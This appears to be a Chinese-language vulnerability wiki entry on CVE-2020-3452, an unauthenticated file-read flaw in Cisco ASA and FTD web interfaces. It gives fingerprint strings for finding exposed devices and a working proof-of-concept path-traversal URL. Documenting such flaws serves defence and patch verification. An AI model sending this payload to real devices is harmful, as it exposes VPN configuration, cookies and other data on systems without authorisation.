 # Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 影响版本

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-1-20220314135401585.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-2-20220314135403447.png)



## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>



## 漏洞复现

验证POC

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件



![img](../../../.vuepress/public/img/cisco-4.png)



## 